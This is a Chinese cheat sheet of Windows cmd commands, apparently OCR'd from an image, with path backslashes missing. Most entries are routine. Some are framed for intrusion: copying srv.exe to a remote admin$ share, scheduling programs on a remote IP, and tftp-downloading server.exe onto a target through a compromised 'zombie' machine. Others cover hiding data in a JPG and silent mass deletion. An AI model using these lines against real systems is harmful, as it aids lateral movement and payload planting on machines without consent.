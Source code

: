 ```
　　del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
　　del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
　　move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
　　fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
　　at id号 开启已注册的某个计划任务
　　at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
　　at id号 /delete 停止某个已注册的计划任务
　　at 查看所有的计划任务
　　at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
　　finger username @host 查看最近有哪些用户登陆
　　telnet ip 端口 远和登陆服务器,默认端口为23
　　open ip 连接到IP（属telnet登陆后的命令）
　　telnet 在本机上直接键入telnet 将进入本机的telnet
　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
　　用参数/e才可连目录下的子目录一起复制到目标地址下。
　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
　　start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
　　mem 查看cpu使用情况
　　attrib 文件名(目录名) 查看某文件（目录）的属性
　　attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
　　dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
　　date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
　　set 指定环境变量名称=要指派给变量的字符 设置环境变量
　　set 显示当前所有的环境变量
　　set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
　　pause 暂停批处理程序，并显示出：请按任意键继续....
　　if 在批处理程序中执行条件处理（更多说明见if命令及变量）
　　goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
　　call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
　　for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
　　echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置
　　echo 信息 在屏幕上显示出信息
　　echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中
　　findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello
　　find 文件名 查找某文件
　　title 标题名字 更改CMD窗口标题名字
　　color 颜色值 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
　　prompt 名称 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
　　ver 在DOS窗口下显示版本信息
　　winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
　　format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
　　md　目录名 创建目录
　　replace 源文件　要替换文件的目录 替换文件
　　ren 原文件名　新文件名 重命名文件名
　　tree 以树形结构显示出目录，用参数-f 将列出第个文件夹中文件名称
　　type 文件名 显示文本文件的内容
　　more 文件名 逐屏显示输出文件
　　doskey 要锁定的命令=字符
　　doskey 要解锁命令= 为DOS提供的锁定命令(编辑命令行，重新调用win2k命令，并创建宏)。如：锁定dir命令：doskey dir=entsky (不能用doskey dir=dir)；解锁：doskey dir=
　　taskmgr 调出任务管理器
```